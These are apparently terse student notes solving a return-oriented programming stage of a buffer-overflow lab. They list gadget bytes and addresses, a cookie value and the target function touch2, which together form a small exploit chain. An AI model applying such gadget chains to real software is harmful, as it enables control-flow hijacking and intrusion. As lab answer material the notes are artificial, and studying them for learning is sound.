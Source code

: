 
``` asm
pop %rax 

mov %rax %rdi

ret
```

pop %rax -> 58 0x4019ab 0x4019a7 + 4

59b997fa -> the value of cookie

movq %rax, %rdi -> 48 89 c7 movq %rax, %rdi 0x4019a0 + 2

ret -> touch2 4017ec

